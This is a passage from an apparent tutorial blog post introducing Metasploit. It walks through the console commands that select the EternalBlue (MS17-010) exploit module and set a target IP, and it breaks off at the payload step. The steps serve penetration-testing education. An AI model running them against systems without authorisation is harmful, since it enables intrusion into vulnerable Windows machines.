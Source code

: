 Metasploit is a powerful framework for penetration testing and security research. It automates many aspects of exploitation, from scanning for vulnerabilities to gaining access to a system.

Metasploit consists of:

- **Exploits** - Code designed to take advantage of specific vulnerabilities.
- **Payloads** - Malicious code that runs on a target system after a successful exploit.
- **Auxiliary Modules** - Tools for scanning, fingerprinting, and reconnaissance.

Let’s say an ethical hacker wants to test whether a machine is vulnerable to EternalBlue (MS17-010), a well-known Windows exploit.

### Step 1: Open Metasploit

First, launch the Metasploit Framework by running:

```sh
msfconsole
```

![Metasploit Console](https://cdn-images-1.medium.com/max/1600/1*bJfYlcEtG8MCG5WCVfNPmQ.png)

### Step 2: Search for the EternalBlue Exploit

To find available exploits, we can search within Metasploit:

```sh
search eternalblue
```

This returns a list of available modules related to EternalBlue.

![Eternal blue search - Metasploit](https://cdn.hashnode.com/res/hashnode/image/upload/v1743732083488/f5fb1d50-516f-4a2a-913c-1fe74d9e249c.png)

The main exploit module is:

```plaintext
exploit/windows/smb/ms17_010_eternalblue
```

### Step 3: Select and Use the Exploit

Now, they load the module:

```sh
use exploit/windows/smb/ms17_010_eternalblue
```

### Step 4: Set the Target IP Address

The hacker sets the target machine’s IP address:

```sh
set RHOSTS 192.168.1.10
```

### Step 5: Choose a Payload
